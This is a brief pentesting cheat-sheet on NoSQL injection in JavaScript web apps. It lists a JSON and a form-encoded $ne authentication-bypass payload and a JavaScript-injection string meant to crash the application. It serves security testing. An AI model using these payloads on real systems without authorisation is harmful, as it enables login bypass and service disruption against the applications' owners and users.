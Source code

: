 # info

When there is a javascript application you should check for nosql injection. You maybe need to change the content type to json.

See https://book.hacktricks.xyz/pentesting-web/nosql-injection for more payloads.

# json

```json
{"user":"admin", "password": { "$ne": "asdf"}}
```

# txt

```txt
username[$ne]=asdf&password[$ne]=asdf
```

# nosql-injection crash app

```txt
`a'; return this.a != 'BadData’'; var dummy='!`
```
